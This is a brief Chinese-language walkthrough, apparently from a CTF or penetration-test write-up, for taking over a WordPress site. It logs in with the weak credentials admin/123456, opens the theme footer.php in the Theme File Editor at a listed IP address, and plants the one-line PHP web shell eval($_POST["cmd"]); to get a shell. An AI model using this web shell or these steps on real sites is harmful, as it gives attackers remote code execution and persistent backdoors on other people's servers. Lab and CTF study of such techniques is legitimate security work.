 [Link](https://blog.csdn.net/longlangci/article/details/131686439)

登录 /wp-login.php

```sh
# 账号：admin
# 密码：123456
```

后台地址是 `example.com/wp-admin/`

```sh
修改主题文件：Appearance—>Theme File Editor—>Theme Footer成功getshell。
http://39.99.136.199/wp-admin/theme-editor.php?file=footer.php&theme=twentytwentyone
加上
eval($_POST["cmd"]);
```
